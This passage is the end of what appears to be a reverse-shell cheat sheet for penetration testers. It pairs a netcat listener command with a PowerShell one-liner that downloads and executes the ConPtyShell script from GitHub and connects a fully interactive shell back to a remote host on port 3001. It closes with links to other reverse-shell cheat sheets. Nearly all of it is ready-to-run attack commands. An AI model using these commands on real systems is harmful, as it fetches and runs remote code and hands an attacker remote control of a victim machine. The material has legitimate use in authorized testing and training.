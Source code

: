 #### Server-side
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```
#### Client-side
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

## References
* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Spawning a TTY Shell](http://netsec.ws/?p=337)
* [Obtaining a fully interactive shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)
* [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
